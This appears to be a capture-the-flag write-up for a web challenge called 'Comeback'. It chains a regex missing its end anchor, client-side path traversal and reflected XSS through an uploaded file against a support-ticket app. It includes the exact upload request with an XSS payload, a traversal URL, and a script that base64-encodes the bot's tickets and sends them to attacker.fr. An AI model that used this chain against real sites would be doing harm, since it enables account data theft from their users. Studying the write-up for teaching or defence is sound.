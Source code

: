 # Comeback

## Challenge

>   Your company's support site has a new look! A brand-new interface is available, and we hope it will make tracking your tickets even faster!
>
>   Author : `Elweth` 

- Category: Web
- Difficulty: Medium

## Deployment

- Docker compose

```bash
cd src; docker compose up
``` 

## Writeup

*This challenge is inspired by a real case found in a bug bounty program.*

The application lets you create an account/log in to send tickets to support.

To do this, users create a ticket by entering a title, description and image.

At first glance, no XSS or SSTI is possible. The upload form is very permissive, but the files are automatically downloaded and are not interpeted in the browser, which is quite limiting.

When a request is created, the URL to access it looks like this:

- http://localhost:5004/demande?id=72b054cb-8704-483b-a8e9-a290da5c1439

Each request is represented by a unique v4 UUID, and it is not possible to access other users' notes.

### File upload : Unrestricted && broken access control

The application allows users to send files, with no control over file type.

What's more, by creating 2 different accounts, it turns out that, provided the UUID is known, user A can access files uploaded by user B ... which isn't exactly secure, but it's impossible to predict the UUID.

We'll keep this to one side 

### Regex bypass

When a request is made, Javascript takes care of retrieving the GET parameter from the URL and sending it to the API to retrieve the data.

Here is the JS file :

```javascript
document.addEventListener('DOMContentLoaded', function() {
    const params = new URLSearchParams(window.location.search);
    const id = params.get('id');
    const requestDetails = document.getElementById('requestDetails');

    function isValidUUID(uuid) {
        const uuidRegex = /^[0-9a-f]{8}-[0-9a-f]{4}-4[0-9a-f]{3}-[89ab][0-9a-f]{3}-[0-9a-f]{12}/i;
        return uuidRegex.test(uuid);
    }
    
    if ( id && isValidUUID(id)) {
        fetch(`/api/demande/${id}`)
            .then(response => response.text())
            .then(text => {
                try {
                    const parsed = JSON.parse(text);

                    requestDetails.innerHTML = '';

                    if (parsed.title) {
                        const titleElement = document.createElement('h2');
                        titleElement.textContent = 'Title: '+ parsed.title;
                        titleElement.classList.add('mb-3');

                        const descriptionElement = document.createElement('p');
                        descriptionElement.textContent = 'Description: '+ parsed.description;
                        descriptionElement.classList.add('mb-4');

                        requestDetails.appendChild(titleElement);
                        requestDetails.appendChild(descriptionElement);

                        if (parsed.file_uuid) {
                            const downloadLink = document.createElement('a');
                            downloadLink.href = `/api/files/${parsed.file_uuid}`;
                            downloadLink.className = 'btn btn-info';
                            downloadLink.textContent = 'Download File';
                            downloadLink.classList.add('d-block', 'mt-3');
                            requestDetails.appendChild(downloadLink);
                        }
                    } else {
                        requestDetails.innerHTML = '<p class="text-danger">Request not found.</p>';
                    }
                } catch (error) {
                    requestDetails.innerHTML = `<p class="text-danger">Error parsing JSON: ${text} -> ${error.message}</p>`;
                }
            })
            .catch(error => {
                requestDetails.innerHTML = `<p class="text-danger">Error fetching data: ${error.message}</p>`;
            });
    } else {
        requestDetails.innerHTML = '<p class="text-danger">Request ID is missing or is not valid UUID.</p>';
    }
});
```

The API first checks that the ID passed as a GET parameter is indeed a UUID, to do that a regex is used.

Here is the regex :

```javascript
const uuidRegex = /^[0-9a-f]{8}-[0-9a-f]{4}-4[0-9a-f]{3}-[89ab][0-9a-f]{3}-[0-9a-f]{12}/i;
``` 

The regex looks good for matching a UUID and indeed it works correctly. However, it is too permissive because it does not have the end character: `$`.

Thanks to this, the regex only checks if the ID starts with a UUID, but not what comes after it.

For example : `/demande?id=72b054cb-8704-483b-a8e9-a290da5c1439foobarfoobarfoobarfoobarfoobar` is considered as valid for the regex.

### Client side path traversal

Thanks to this lack of control over the regex, it is possible to make a “Client Side Path Traversal”.

If the UUID is correct (or the regex can be bypassed), it is sent to the API, concatenated at the end of the URL as follows:
```javascript
fetch(`/api/demande/${id}`)
```
In this way, we can force the browser to fetch the URL of our choice like this:
```javascript
fetch(`/api/demande/72b054cb-8704-483b-a8e9-a290da5c1439/../../../../../../../foo/bar`) // -> will fetch /foo/bar
```

### Reflected XSS

Since we can force the server to request the endpoint of our choice, we can now use file upload to display the data of our choice.

As the following code snippet shows, once the fetch request has been made, the JS attempts to parse it into JSON.

If the parsing fails, then an error is displayed to the user via an innerHTML :D It's starting to smell good :

```javascript
try {
    const parsed = JSON.parse(text);
    ...
} catch (error) {
    requestDetails.innerHTML = `<p class="text-danger">Error parsing JSON: ${text} -> ${error.message}</p>`;
}
```

So we're going to use the CSPT to fetch a file we've uploaded containing our XSS.

We submit the support request by specifying an XSS in the file uploaded:

```bash
POST /api/requests HTTP/1.1
Host: 127.0.0.1:5004
Content-Length: 408
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5SGbbf1UClVY63uQ
Cookie: access_token=XX
Connection: keep-alive

------WebKitFormBoundary5SGbbf1UClVY63uQ
Content-Disposition: form-data; name="title"

bb
------WebKitFormBoundary5SGbbf1UClVY63uQ
Content-Disposition: form-data; name="description"

bb
------WebKitFormBoundary5SGbbf1UClVY63uQ
Content-Disposition: form-data; name="file"; filename="chaton.jpeg"
Content-Type: image/jpeg

<img src=x onerror="alert()">
------WebKitFormBoundary5SGbbf1UClVY63uQ--
```

Once the request has been saved, we retrieve the path containing the file's UUID, in my case: /api/files/5b7efe29-3bf2-4346-ac63-c9c5a4ab97ca.

Then CSPT on it:

- http://192.168.117.136:5004/demande?id=72b054cb-8704-483b-a8e9-a290da5c1439/../../../../../../../api/files/5b7efe29-3bf2-4346-ac63-c9c5a4ab97ca

Bingo, XSS!

![XSS Comeback](/images/xss_comeback.png)

### Flag exfiltration

To get the flag back, the challenge isn't quite over yet! The bot has no cookies.

To retrieve the precious flag, you need to retrieve the requests submitted by the bot. This can be done with the following script:

```javascript
fetch("/api/demandes").then(d => d.text()).then((data) => {
    demande = data;
    window.location.href = `https://attacker.fr/?exfil=${btoa(demande)}`;
})
```

We repeat the upload operation, send the link to the CSPT to the bot, and get the flag back!

```
GET /?exfil=W3siZGVzY3JpcHRpb24iOiJSTXtIb2x5X3NoMXRfMV9XNHNfU3VyZV9UMF9QcjN2ZW50X1hTU30iLCJmaWxlX3V1aWQiOm51bGwsImlkIjoiODljOGUzNjctYTA2YS00ZDYyLWFlNGItODMyY2Q1NmZiYjM4IiwidGl0bGUiOiJmbGFnIn1dCg==
```